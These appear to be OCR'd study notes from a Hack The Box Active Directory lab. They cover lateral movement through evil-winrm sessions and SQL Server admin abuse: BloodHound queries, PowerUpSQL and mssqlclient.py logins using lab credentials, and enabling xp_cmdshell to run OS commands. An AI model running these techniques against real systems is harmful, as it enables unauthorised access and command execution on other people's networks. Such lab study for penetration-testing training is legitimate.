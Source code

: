 Establishing WinRM Session from Linux
```
evil-winrm -i 10.129.201.234 -u forend
```


SQL Server Admin
More often than not, we will encounter SQL servers in the environments we face. It is
common to find user and service accounts set up with sysadmin privileges on a given SQL
server instance. Obtain credentials in the following ways:
- Kerberoasting
- LLMNR/NBT-NS Response Spoofing
- Password Spraying
- Snaffler to find web.config files

Custom Query to Find SQL Admins in Bloodhound
```
MATCH p1=shortestPath((u1:User)-[r1:MemberOf*1..]->(g1:Group)) MATCH p2=(u1)-
[:SQLAdmin*1..]->(c:Computer) RETURN p2
```

In the lab damundsen has SQLAdmin rights
- Use ACL rights to authenticate with wley user
- Change password for the damundsen user
- Authenicate with the target using PowerUpSQL
	- Command Cheat Sheet
- Log in as damundsen

1. Hunt for SQL Server Instances with PowerUpSQL
```
PS C:\htb> cd .\PowerUpSQL\
PS C:\htb> Import-Module
.\PowerUpSQL.ps1
PS C:\htb> Get-SQLInstanceDomain
```

2. Run a simple query against the SQL Server
```
PS C:\htb> Get-SQLQuery -Verbose -Instance "172.16.5.150,1433" -username
"inlanefreight\damundsen" -password "SQL1234!" -query 'Select @@version'
```



Authenticate with Linux Through mssqlclient.py
```
TeneBrae93@htb[/htb]$ mssqlclient.py
INLANEFREIGHT/DAMUNDSEN@172.16.5.150 -windows-auth
```
	- Once connected, type "help" to see which commands are available

We could then choose enable_xp_cmdshell to enable the xp_cmdshell stored procedure which allows for one to execute operating system commands via the database if the account in question has the proper access rights.
SQL>
enable_xp_cmdshell
	- Run commands in the format of xp_cmdshell `<command>`
